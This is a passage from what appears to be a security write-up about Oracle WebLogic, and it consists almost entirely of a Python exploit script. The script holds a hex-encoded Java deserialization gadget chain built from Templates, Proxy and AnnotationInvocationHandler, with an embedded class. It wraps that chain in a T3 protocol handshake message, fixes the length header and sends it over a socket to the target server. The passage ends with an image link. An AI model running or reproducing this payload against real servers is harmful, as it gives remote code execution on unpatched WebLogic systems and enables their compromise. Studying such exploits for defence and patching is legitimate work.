0a\x00\x52\x00\xa3\x00\x48\x00\x47\x00\x05\x00\x0c\x00\xea\x00\x49\x00\x4a\x00\x00\x00\x22\x00\xd4\x00\x4b\x00\x41\x00\x01\x00\x42\x00\xb4\x00\x4c\x00\x4d\x00\x02\x00\x4b\x00\xab\x00\x4e\x00\x4d\x00\x03\x00\x4f\x00\xa7\x00\x4f\x00\x47\x00\x04\x00\x50\x00\x00\x00\x1d\x00\x03\xff\x00\x52\x00\x06\x07\x00\x51\x07\x00\x52\x07\x00\x0e\x07\x00\x0e\x01\x01\x00\x00\xfb\x00\x9c\xfa\x00\x05\x00\x34\x00\x00\x00\x04\x00\x01\x00\x23\x00\x08\x00\x53\x00\x28\x00\x01\x00\x29\x00\x00\x00\x77\x00\x02\x00\x01\x00\x00\x00\x16\xb2\x00\x0b\x12\x20\xb6\x00\x21\xb8\x00\x22\xa7\x00\x08\x4b\x2a\xb6\x00\x24\x01\x4b\xb1\x00\x01\x00\x00\x00\x0b\x00\x0e\x00\x23\x00\x03\x00\x2a\x00\x00\x00\x1e\x00\x07\x00\x00\x00\x19\x00\x08\x00\x1a\x00\x0b\x00\x1d\x00\x0e\x00\x1b\x00\x0f\x00\x1c\x00\x13\x00\x1f\x00\x15\x00\x20\x00\x2b\x00\x00\x00\x16\x00\x02\x00\x0f\x00\x04\x00\x54\x00\x55\x00\x00\x00\x15\x00\x00\x00\x56\x00\x41\x00\x00\x00\x50\x00\x00\x00\x07\x00\x02\x4e\x07\x00\x57\x04\x00\x01\x00\x58\x00\x00\x00\x02\x00\x59\x70\x74\x00\x04\x50\x77\x6e\x72\x70\x77\x01\x00\x78\x73\x7d\x00\x00\x00\x01\x00\x1d\x6a\x61\x76\x61\x78\x2e\x78\x6d\x6c\x2e\x74\x72\x61\x6e\x73\x66\x6f\x72\x6d\x2e\x54\x65\x6d\x70\x6c\x61\x74\x65\x73\x78\x72\x00\x17\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x72\x65\x66\x6c\x65\x63\x74\x2e\x50\x72\x6f\x78\x79\xe1\x27\xda\x20\xcc\x10\x43\xcb\x02\x00\x01\x4c\x00\x01\x68\x74\x00\x25\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x78\x70\x73\x72\x00\x32\x73\x75\x6e\x2e\x72\x65\x66\x6c\x65\x63\x74\x2e\x61\x6e\x6e\x6f\x74\x61\x74\x69\x6f\x6e\x2e\x41\x6e\x6e\x6f\x74\x61\x74\x69\x6f\x6e\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x55\xca\xf5\x0f\x15\xcb\x7e\xa5\x02\x00\x02\x4c\x00\x0c\x6d\x65\x6d\x62\x65\x72\x56\x61\x6c\x75\x65\x73\x74\x00\x0f\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x4d\x61\x70\x3b\x4c\x00\x04\x74\x79\x70\x65\x74\x00\x11\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x78\x70\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x74\x00\x08\x66\x35\x61\x35\x61\x36\x30\x38\x71\x00\x7e\x00\x09\x78\x76\x72\x00\x1d\x6a\x61\x76\x61\x78\x2e\x78\x6d\x6c\x2e\x74\x72\x61\x6e\x73\x66\x6f\x72\x6d\x2e\x54\x65\x6d\x70\x6c\x61\x74\x65\x73\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x78\x70\x78\x73\x7d\x00\x00\x00\x01\x00\x14\x6a\x61\x76\x61\x2e\x69\x6f\x2e\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x62\x6c\x65\x78\x72\x00\x17\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x72\x65\x66\x6c\x65\x63\x74\x2e\x50\x72\x6f\x78\x79\xe1\x27\xda\x20\xcc\x10\x43\xcb\x02\x00\x01\x4c\x00\x01\x68\x74\x00\x25\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x78\x70\x73\x72\x00\x32\x73\x75\x6e\x2e\x72\x65\x66\x6c\x65\x63\x74\x2e\x61\x6e\x6e\x6f\x74\x61\x74\x69\x6f\x6e\x2e\x41\x6e\x6e\x6f\x74\x61\x74\x69\x6f\x6e\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x55\xca\xf5\x0f\x15\xcb\x7e\xa5\x02\x00\x02\x4c\x00\x0c\x6d\x65\x6d\x62\x65\x72\x56\x61\x6c\x75\x65\x73\x74\x00\x0f\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x4d\x61\x70\x3b\x4c\x00\x04\x74\x79\x70\x65\x74\x00\x11\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x78\x70\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x74\x00\x08\x66\x35\x61\x35\x61\x36\x30\x38\x71\x00\x7e\x00\x05\x78\x76\x71\x00\x7e\x00\x03\x78'<br><br>payload='\x00\x00\x09\xf3\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00'<br>payload=payload+payloadObj<br>payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78'<br><br># adjust header for appropriate message length<br>payload=struct.pack('>I',len(payload)) + payload[4:]<br>#print payload<br>print '[+] Sending payload...'<br>sock.send(payload)<br>time.sleep(1)<br>data = sock.recv(1024)<br>print  'received "%s"' % data<br>print 'send sucess'<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094759.png-water_print](assets/1699411396-84fa05f0c0c5202e84b5b1efff4e9595.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094759.png-water_print")
